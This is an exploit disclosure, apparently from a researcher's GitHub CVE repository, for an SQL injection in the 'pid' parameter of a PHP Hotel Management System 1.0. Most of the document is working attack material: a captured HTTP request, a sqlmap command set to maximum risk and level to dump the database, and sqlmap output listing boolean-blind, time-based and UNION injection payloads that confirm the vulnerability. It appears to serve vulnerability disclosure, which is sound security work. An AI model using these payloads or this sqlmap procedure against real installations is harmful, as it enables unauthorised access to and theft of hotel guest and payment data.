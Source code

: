 # Hotel Managment System - SQL Injection-3
+ *Exploit Title:* Hotel Managment System - SQL Injection-3
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'pid' parameter in Hotel/admin/print.php?pid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click Payment section
+ Then click print button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/print.php?pid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36

```
+ Use sqlmap to exploit. In sqlmap, use 'pid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p pid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: pid=2' AND 5169=5169-- oWOU

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: pid=2' AND (SELECT 2043 FROM (SELECT(SLEEP(5)))fHNg)-- hMZI

    Type: UNION query
    Title: Generic UNION query (NULL) - 15 columns
    Payload: pid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71706b7171,0x6a49484f71776552716856764a4b4e4b657a4a6875536347536d764350686357585a416475504944,0x7162717a71),NULL-- -
---
[18:59:12] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:59:12] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 030314](https://github.com/tubakvgc/CVEs/assets/74067343/87493805-0ed1-4938-8dc3-58062d9b0820)





  
